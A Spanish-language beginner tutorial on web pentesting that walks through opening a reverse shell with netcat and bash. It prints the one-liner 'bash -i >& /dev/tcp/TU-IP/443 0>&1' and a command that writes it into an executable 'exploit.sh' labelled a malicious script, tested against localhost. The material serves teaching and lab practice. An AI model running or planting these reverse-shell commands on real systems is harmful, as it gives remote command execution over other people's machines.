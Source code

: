 ```yaml
---
title: ReverseShells & Malware
published: true
---
```


* <p>Hola hoy estaremos hablando de pentesting web, hablaremos sobre:</p>
  *Creación de `ReverseShell.`*
 <br>
  *Como están compuesto el malware.*

<br>

* <p>Primero, qué es una <font color="red">ReverseShell</font>. Lo explicaré en un lenguaje brusco: una ReverseShell es aquella que te permite ejecutar comandos en una PC que no es tu dominio, es decir, una IP que es la de la víctima conectada a un host, donde el host es tu equipo y te permite ejecución remota de comandos.</p>
<a href="https://www.revshells.com/" target="_blanck">Creación de reverse-shell.</a>

<br>

<center> # ReverseShell</center>
<br>
* <p> los programas a utilizar para la ReverseShell es bash, netcat, si usas Linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</p>

>
Para <font color="yellow"> Linux </font>

```bash
sudo apt-get install netcat bash -y
```
>
Para <font color="yellow">arch-Linux</font>

```bash
pacman -Sy netcat bash
```

<br>

* <p>Importante</p>


* <p>Para este caso no utilizaremos sh sino que usaremos bash. Esto cambia un poco el contexto de la forma en la que se ejecuta el código, pero aun así se pueden lograr de mil formas aunque tengas una sh.</p>
>
<img src="screenshots/screen_bash.jpg">
>
Como no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script.

<br>

---
<br>
* <p> Empezamos poniéndonos en escucha por el puerto 443 de netcat : </p>

```bash
nc -nvlp 443
```

* <p> Miramos que ip tenemos con el comando ifconfig :</p>
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

* <p> Como pueden ver tengo la ip 127.0.0.1</p>
<br>

* <p> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablar la conexión desde otra terminal porque la primera está siendo ocupada por netcat. Entonces recuerden ejecutar el comando <b>bash</b> antes de entablar la conexión.</p>
<br>

* <p> Para entablar la conexión hacemos el siguiente comando :</p>

```bash
bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

* <p> Como pueden ver se me abrió un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

* <p> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta vez el comando :
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

* <p> Lo que hace este comando es crear un script en bash para poder entablarme una conexión reversa. Pueden hacer <b>ls</b> y verán un archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecución.</p>

* <p>No se ofusque si no entiende la anterior  linea de código simplemente lo que hace es hacer un archivo con `touch` darle permisos</p>
de ejecución con `chmod +x exploit.sh` y agregarle el código con `>>` :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
* <p> Pueden hacerlo manualmente con los siguientes comandos :</p>

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

* <p>Abren el archivo creado y coloca la siguiente linea : "bash -i >& /dev/tcp/SU-IP/443 0>&1"</p>
<br>
* <p> Una vez ya hecho el archivo, pónganse en escucha por el puerto <b>443</b> con netcat. Recuerden que con el comando <q><b>nc -nlvp 443</b></q> nos poníamos en escucha por el puerto <b>443</b>. Este puerto puede ser modificado siempre y cuando el puerto no esté en uso, y claramente en el exploit o código pongan su respectivo puerto.</p>

ﾠ
* <p> Nos ponemos en escucha con netcat</p>
```#!/bin/bash
nc -nlvp 443
```
<br>
* <p> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

* <p><b> Ahora como pude ver tengo una reverse Shell</b></p>
<br>

* <p> Lo más cómodo de hacerlo por script es que se puede ejecutar el archivo teniendo la zsh y ahorrándose el comando `bash` y ejecutar el archivo. Esto se debe a la extensión <b>"sh"</b> que tiene el archivo.</p>

<br>
* <p>Vale ya sabes al menos cosas básicas.</p>

